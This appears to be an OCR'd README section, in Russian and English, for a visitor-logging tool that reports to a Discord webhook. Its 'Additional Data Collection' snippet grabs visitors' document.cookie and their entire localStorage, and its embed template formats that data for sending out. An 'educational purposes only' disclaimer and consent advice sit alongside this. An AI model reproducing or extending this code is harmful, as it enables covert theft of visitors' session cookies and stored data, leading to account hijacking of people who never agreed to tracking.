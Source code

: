 ### Новая версия:
- Множественные варианты хостинга
- Локальное выполнение
- Полная независимость

## 📈 Advanced Features

### Custom HTML Template
```html
<!-- Можно изменить HTML шаблон в коде -->
<style>
    /* Добавьте свои стили */
    body { background: linear-gradient(45deg, #ff6b6b, #4ecdc4); }
</style>
```

### Additional Data Collection
```javascript
// Добавьте дополнительные данные
const additionalInfo = {
    referrer: document.referrer,
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage)
};
```

### Custom Discord Embed
```python
# Измените формат Discord сообщения
embeds: [{
    "title": "Custom Title",
    "description": "Custom Description",
    "color": 0xff0000,  # Красный цвет
    "fields": [
        # Добавьте свои поля
    ]
}]
```

## 🛡️ Security Considerations

### Best Practices:
1. **Не используйте в незаконных целях**
2. **Получите согласие пользователей**
3. **Соблюдайте GDPR и другие законы**
4. **Защитите собранные данные**
5. **Используйте HTTPS для production**

### Legal Notice:
```
Этот инструмент предназначен только для образовательных целей.
Пользователи несут ответственность за свои действия.
Автор не несет ответственности за неправомерное использование.
```
